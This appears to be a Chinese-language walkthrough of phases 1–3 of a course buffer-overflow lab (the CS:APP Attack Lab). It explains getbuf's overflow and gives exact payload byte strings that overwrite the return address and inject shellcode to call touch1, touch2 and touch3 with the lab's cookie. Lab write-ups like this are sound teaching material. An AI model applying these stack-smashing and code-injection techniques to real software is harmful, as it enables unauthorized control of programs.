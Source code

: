## phase1

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp	# 字符串长度不超过40
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

输入字符串超过40（包含结束的空字符）时溢出，污染ret要返回的指令地址。

touch1的地址是0x00000000004017c0

所以输入的字符串是40个任意字符后接着**c0 17 40 00 00 00 00 00**

例如

```
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
c0 17 40 00 00 00 00 00			/* address of <touch1> */
```



## phase_2

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
	printf("Touch2!: You called touch2(0x%.8x)\n", val);
	validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

touch2的地址是0x00000000004017ec

cookie是0x59b997fa

刚进入getbuf时%rsp = 0x5561dca0，然后%rsp - 0x28 = 0x5561dc78

要注入的代码是

```assembly
68 ec 17 40 00       	pushq  $0x4017ec			# touch2的地址
48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa, %rdi	# 将cookie存入%rdi
c3                   	ret							# 返回到执行touch2
```

然后要注入代码使得getbuf执行ret时返回的地址为上面代码的起始位置，可以在输入的字符串中首先注入代码，然后填0，最后覆盖ret要返回的指令地址。

```assembly
5561dc78:	68 ec 17 40 00       	pushq  $0x4017ec			# touch2的地址
5561dc7d:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa, %rdi	# 将cookie存入%rdi
5561dc84:	c3                   	ret							# 返回到执行touch2
```

所以输入的字符串是

```
68 ec 17 40 00                  /* pushq $0x4017ec */
48 c7 c7 fa 97 b9 59            /* mov   $0x59b97fa, %rdi */
c3                              /* ret */
00 00 00 00 00 00 00            /* 7 zeros */
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
78 dc 61 55 00 00 00 00         /* address of gadget */
```



## phase_3

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)// val = 0x59b997fa, sval = %rdi
{
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val); //s = "59b997fa"
	return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```

在注入的字符串中加入sval应指向的字符串“59b997fa”

touch3的地址是0x00000000004018fa

gdb检查发现进入touch3时%rsp变为0x5561dca8，而注入的位置是0x5561dc78，相差0x30 == 48

进入hexmatch时%rsp变为0x5561dc98，栈扩大后变成0x5561dc00，且canary保证栈帧不超过0x78

所以要把sval字符串放远一点以免被touch3的栈帧内容覆盖(放在0x5561dca8及之后的位置)

要注入的代码是

```assembly
5561dc78:	68 fa 18 40 00       	pushq  $0x4018fa			# touch3的地址
5561dc7d:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8, %rdi	# 将字符串地址存入%rdi
5561dc84:	c3                   	ret							# 返回到执行touch3
#填0和address of gadget
5561dca8:	35 39 62 39 39 37 66 61 00							# sval字符串
```

要输入的字符串是

```
68 fa 18 40 00                  /* touch3的地址 */
48 c7 c7 a8 dc 61 55            /* 将sval字符串地址存入%rdi */
c3                              /* 返回到执行touch3 */
00 00 00 00 00 00 00            /* 7 zeros */
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
00 00 00 00 00 00 00 00 00 00   /* 10 zeros */
78 dc 61 55 00 00 00 00         /* address of gadget */
35 39 62 39 39 37 66 61 00      /* sval字符串 */
```

